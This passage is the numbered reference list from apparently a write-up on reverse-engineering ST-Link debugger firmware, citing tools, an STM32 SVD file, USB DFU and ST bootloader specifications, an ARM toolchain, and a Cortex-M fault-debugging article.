- <a name="ref-2"></a>\[2\]: libstlinkloader https://github.com/jeanthom/jtaginabox/tree/master/libstlinkloader
- <a name="ref-3"></a>\[3\]: lujji: Reverse-engineering ST-Link firmware - Part 2 https://lujji.github.io/blog/reverse-engineering-stlink-firmware-part2/
- <a name="ref-4"></a>\[4\]: SVD-Loader https://github.com/leveldown-security/SVD-Loader-Ghidra
- <a name="ref-5"></a>\[5\]: https://github.com/posborne/cmsis-svd/blob/master/data/STMicro/STM32F103xx.svd
- <a name="ref-6"></a>\[6\]: https://usb.org/sites/default/files/DFU_1.1.pdf
- <a name="ref-7"></a>\[7\]: https://www.st.com/resource/en/application_note/cd00264379-usb-dfu-protocol-used-in-the-stm32-bootloader-stmicroelectronics.pdf
- <a name="ref-8"></a>\[8\]: https://developer.arm.com/tools-and-software/open-source-software/developer-tools/gnu-toolchain/gnu-rm/downloads
- <a name="ref-9"></a>\[9\]: https://github.com/MelbourneDeveloper/Device.Net
- <a name="ref-10"></a>\[10\]: https://interrupt.memfault.com/blog/cortex-m-fault-debug
